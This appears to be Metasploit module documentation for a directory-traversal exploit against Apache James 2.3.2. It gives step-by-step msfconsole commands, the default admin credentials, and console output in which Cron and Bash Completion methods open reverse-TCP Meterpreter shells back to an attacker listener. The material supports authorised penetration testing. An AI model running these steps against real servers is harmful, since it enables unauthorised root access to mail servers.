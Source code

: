 ## Vulnerable Application
  This module exploits a vulnerability that exists due to a lack of input validation when creating a user in Apache James 2.3.2.
  By creating a user with a directory traversal payload as the username, commands can be written to a given directory/file.
  Instructions for installing the vulnerable application for testing can be found here:
  https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf

## Verification Steps
  __1.__ Start msfconsole

  __2.__ DO: Load module exploit/linux/smtp/apache_james_exec

  __3.__ DO: Set the remote and local options: rhosts, lhosts, lport

  __4.__ DO: Set the preferred payload

  __5.__ DO: Run the check method to determine vulnerability

  __6.__ DO: Run the exploit

  __7.__ The payload will connect to the listener if the exploit is successful

## Options
  **USERNAME:**  The administrator username for Apache James 2.3.2 remote administration tool. By default this is 'root'.  
  **PASSWORD:**  The administrator password for Apache James 2.3.2 remote administration tool. By default this is 'root'.  
  **ADMINPORT:**  The port for Apache James 2.3.2 remote administration tool. By default this is '4555'.  
  **RHOSTS:**  The IP address of the vulnerable server.  
  **RPORT:**  The port number of the SMTP service.  
  **POP3PORT** The port for the POP3 Apache James Service.  By default this '110'.  

## Scenarios
  **If using Cron exploitation method:** This method allows for automatic execution of the payload with no user interaction
  required and gives the attacker root privileges. It will also attempt to automatically cleanup the malicious user and the
  mail objects.

  1. Load the module:

```
  msf5 > use exploit/linux/smtp/apache_james_exec
```

  __2.__ Set remote and local options:

```
  msf5 exploit(linux/smtp/apache_james_exec) > set target 1
  target => 1
  msf5 exploit(linux/smtp/apache_james_exec) > set rhosts  192.168.224.169
  rhosts =>  192.168.224.169

  msf5 exploit(linux/smtp/apache_james_exec) > set lhost 192.168.224.167
  lhost => 192.168.224.167
  msf5 exploit(linux/smtp/apache_james_exec) > set lport 4444
  lport => 4444
```

  __3.__ Set payload:

```
  msf5 exploit(linux/smtp/apache_james_exec) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
```

  __4.__ Check version and run exploit:

```
  msf5 exploit(linux/smtp/apache_james_exec) > check
  [*] 192.168.224.164:25 - The target appears to be vulnerable.
  msf5 exploit(linux/smtp/apache_james_exec) > exploit
  
  [*] Started reverse TCP handler on 192.168.224.167:4444
  [+] 192.168.224.169:25 - Waiting 60 seconds for cron to execute payload
  [*] Sending stage (3021284 bytes) to 192.168.224.169
  [*] Meterpreter session 1 opened (192.168.224.167:4444 -> 192.168.224.169:38694) at 2020-02-02 16:30:02 -0800
  [*] 192.168.224.169:25 - Command Stager progress - 100.00% done (812/812 bytes)

  meterpreter >
```

  ---------------------------------------------------------------------------------------------
  **If using Bash Completion:** This method may be preferable if targeting a linux operating system such as some versions of Ubuntu that
  fails to run the cron method for exploitation. This exploitation method will leave an Apache James mail object artifact in the
  /etc/bash_completion.d directory and the malicious user account.

  __1.__ Load the module:

```
  msf5 > use exploit/linux/smtp/apache_james_exec
```

  __2.__ Set remote and local options:

```
  msf5 exploit(linux/smtp/apache_james_exec) > set target 0
  target => 0
  msf5 exploit(linux/smtp/apache_james_exec) > set rhosts 192.168.224.164
  rhosts => 192.168.224.164

  msf5 exploit(linux/smtp/apache_james_exec) > set lhost 192.168.224.167
  lhost => 192.168.224.167
  msf5 exploit(linux/smtp/apache_james_exec) > set lport 4444
  lport => 4444
```

  __3.__ Set payload:

```
  msf5 exploit(linux/smtp/apache_james_exec) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
```

  __4.__ Check version and run exploit:

```
  msf5 exploit(linux/smtp/apache_james_exec) > check
  [*] 192.168.224.164:25 - The target appears to be vulnerable.
  msf5 exploit(linux/smtp/apache_james_exec) > exploit

  [*] 192.168.224.164:25 - Command Stager progress - 100.00% done (812/812 bytes)
```

  __5.__ Set up and run listener (Can be done before running exploit):

```
  msf5 exploit(linux/smtp/apache_james_exec) > use exploit/multi/handler
  msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lport 4444
  lport => 4444
  msf5 exploit(multi/handler) > set lhost 192.168.224.167
  lhost => 192.168.224.167

  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.224.167:4444
  [*] Sending stage (3021284 bytes) to 192.168.224.164
  [*] Meterpreter session 1 opened (192.168.224.167:4444 -> 192.168.224.164:34752) at 2020-01-18 18:25:14 -0800

  meterpreter >
```

## Targets
```
  Id  Name 
  --  ----
  0   Bash Completion
  1   Cron
```

## References
  1. <https://www.exploit-db.com/exploits/35513>
  2. <https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf>

